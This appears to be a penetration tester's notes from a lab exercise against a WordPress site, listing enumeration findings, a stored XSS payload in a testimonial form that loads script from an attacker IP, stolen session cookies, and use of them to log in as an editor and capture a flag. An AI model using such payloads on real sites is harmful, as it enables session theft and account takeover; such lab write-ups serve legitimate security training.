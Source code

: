 	- robots.txt
	- ?s=test
		- search page
		- Tested for command injection (nothing)
	- /wp-content/plugins/secure_testimonials/post-testimonial.php
	- /wp-admin/admin-ajax.php

**Form:** `http://www.trilocor.local/index.php/testimonials/`
Fields: 
- Full name (Vulnerable to XSS): 
```
<script src=http://10.10.14.17/script.js></script>
```
base64 output:
```
wordpress_828ff7d64a441f8aab6a0310bdcee6a9=web-editor%7C1749916858%7CkmZRYiJ7i7lnr7whCUvaQX8RYbqpTv6aHK18SDGOhVD%7C9880712799bb0f54d48842ab5b2429284d4560667c62ce9c72242cbfa18fbf83;%20wordpress_logged_in_828ff7d64a441f8aab6a0310bdcee6a9=web-editor%7C1749916858%7CkmZRYiJ7i7lnr7whCUvaQX8RYbqpTv6aHK18SDGOhVD%7Ce6e877eb7e99558b9275c62092f0a90903135940e933206c2c06dacaf9854710;%20wordpress_test_cookie=WP%20Cookie%20check
```
- We now go to http://admin.trilocor.local/wp-admin/ (which was found with ZAP spidering) and paste this cookie as the new cookie value
- logs us in and we get the first flag: 098b2be9a3c24d54bdd15f3e26c1528e 

Can login as web-editor
- email: editor@trilocor.local

**Technologies:** Wappalyzer
- CMS & Blogs: WordPress 6.0.2
- WordPress plugins: Elementor 3.7.7
- Databases: MySQL
- OS: Ubuntu
- Web Server: Apache 2.4.41
- Programming Languages: PHP

**Robots.txt**
- User-agent: *
- Disallow: /wp-admin/
- Allow: /wp-admin/admin-ajax.php
- Sitemap: http://www.trilocor.local/wp-sitemap.xml

**Search Page:**
- http://www.trilocor.local/?s=test
	- Output of search is reflected on the page
- Not vulnerable to sqli
- Not vulnerable to SSTI
- Not vulnerable to command injection

**Admin Page:**
- http://www.trilocor.local/wp-admin/

**Cookies:**
- `Cookie: PHPSESSID=4chrgj92lptfic8k2jtn0hn260`
